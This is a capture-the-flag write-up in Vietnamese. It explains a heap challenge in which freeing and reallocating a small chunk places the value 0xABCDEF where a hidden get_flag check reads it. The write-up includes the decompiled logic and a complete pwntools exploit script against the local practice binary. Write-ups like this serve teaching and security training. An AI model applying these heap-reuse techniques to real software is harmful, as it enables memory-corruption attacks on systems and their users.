









# Heap_Exploit - Heap1

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn1_ff: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.32, BuildID[sha1]=b744398ed054457775b2ede2fc6f427f294fca56, stripped
```
Đây là file 64-bit bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x3ff000)
```
Ở bài này không bof hay thực thi shellcode được. Kế đến sử dụng Ida Pro 64 bits

Sửa lại file IDA ta có hàm main():



Ở đây ta có 4 options trong đó 1 option khi ta chạy file không có đó là get_flag():



# 2. Phân tích yêu cầu

Tại hàm get_flag() sẽ lấy 8 bytes giá trị ở địa chỉ 0x6020f0 rồi cộng thêm 8 và lưu vào RAX

Cuối cùng so sánh giá trị tại địa chỉ RAX đó với 0xABCDEF

Nếu đúng sẽ in ra flag cho chúng ta.

# 3. Khai thác

Đầu tiên chúng ta sẽ tạo một vài chunks: 

```
create(24,p64(0xABCDEF)*5)
create(24,p64(0xABCDEF)*5)
create(24,p64(0xABCDEF)*5)
```

Khi đó heap của chúng ta sẽ như sau:



Và địa chỉ cần so sánh với 0xABCDEF tương ứng với chunk thứ 3:



Tiếp theo chúng ta free() chunk đó: 

```
free(2)
```

Heap khi đó:



Có thể thấy địa chỉ của chunk thứ 3 đó đã bị lưu vào 8 bytes đầu của phần data trước đó

Ta sẽ cấp phát lại 1 chunk có size bằng với chunk vừa free: 

```
create(24,p64(0xABCDEF)*5)
```



Và data của chunk vừa cấp phát đã đổi chõ với address của chunk đó

Kiểm tra lại địa chỉ so sánh:



Vậy là đã đúng với điều kiện để cat_flag, giờ chúng ta chỉ cần nhập option ẩn thôi:

```
flag()
```

# 4. Giải thích: 

Ở hàm create_heap()

```
size_4 = (linklist *)malloc(0x10uLL);
size_4->data = (char *)malloc(size);
```



Có thể thấy ở đây vùng nhớ địa chỉ có kích thước 0x18bytes và khi đó là do cơ chế địa chỉ trả về của allocator.

Do địa chỉ của chunk là 0x8 bytes mà khi free thì sẽ xóa 8bytes đầu phần data -> nó sẽ lưu địa chỉ chunk vào đó và nếu ta cấp phát 1 chunk có size tương tự thì sẽ được lưu vào phần data trống trước đó dành cho địa chỉ chunk

* Lưu ý:

Điều này chỉ xảy ra khi size data <= vùng địa chỉ chunk (0x18 bytes) trước đó.

# Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pwn1_ff', checksec=False)

p = process("./pwn1_ff")

gdb.attach(p, gdbscript='''
vis
''')

def create(size,data):
	p.sendlineafter(b">", b"1")
	p.sendlineafter(b"Input size:", str(size))
	p.sendafter(b"Input data:", data)

def free(idx):
	p.sendlineafter(b">", b"2")
	p.sendafter(b"Input index:", str(idx)) 
def flag():
    p.sendlineafter(b">", b"4")


create(24,p64(0xABCDEF)*5)
create(24,p64(0xABCDEF)*5)
create(24,p64(0xABCDEF)*5)
free(2)
create(24,p64(0xABCDEF)*5)
flag()
p.interactive()
```
# 5. Lấy flag




